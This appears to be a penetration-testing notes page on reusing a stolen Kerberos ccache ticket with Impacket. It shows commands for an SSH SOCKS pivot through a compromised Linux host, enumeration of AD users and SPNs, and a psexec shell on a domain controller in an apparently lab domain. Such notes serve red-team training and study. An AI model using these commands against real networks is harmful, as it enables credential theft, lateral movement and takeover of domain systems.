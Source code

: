 # Using Kerberos with Impacket

## **Using Kerberos with Impacket**

### Scenario 

#### - Domain computer compromised \(linux\) - User Ccache file owned - Download the ccache into the attacker machine 

### Settings

#### Set Kerberos Env using the stolent ticket

![](../../../../../.gitbook/assets/image%20%2869%29%20%281%29.png)

#### Install krb5-user and add DC into hosts

![](../../../../../.gitbook/assets/image%20%2870%29.png)

#### KRB5.conf configuration

![](../../../../../.gitbook/assets/image%20%28234%29.png)

#### Proxychains

Edit the config file and comment the following line:

![](../../../../../.gitbook/assets/image%20%28170%29.png)

![](../../../../../.gitbook/assets/image%20%28233%29.png)

#### Sock Proxy

Create a sock Proxy on the target compromised linux box :

```csharp
ssh testme@10.110.0.74 -D 1080
```

### Enumerate AD users

```csharp
proxychains python3 GetADUsers.py -all -k -no-pass -dc-ip 10.110.0.222 CROOK.BADCORP.LOCAL/Administrator

```

![](../../../../../.gitbook/assets/image%20%2819%29%20%281%29.png)

### Get SPN 

```csharp
proxychains python3 GetUserSPNs.py -k -no-pass -dc-ip 10.110.0.222 CROOK.BADCORP.LOCAL/Administrator
```

### Get a shell

```csharp
proxychains python3 psexec.py -dc-ip 10.110.0.222 Administrator@dc02.CROOK.BADCORP.LOCAL -k -no-pass
```

![](../../../../../.gitbook/assets/image%20%2827%29.png)

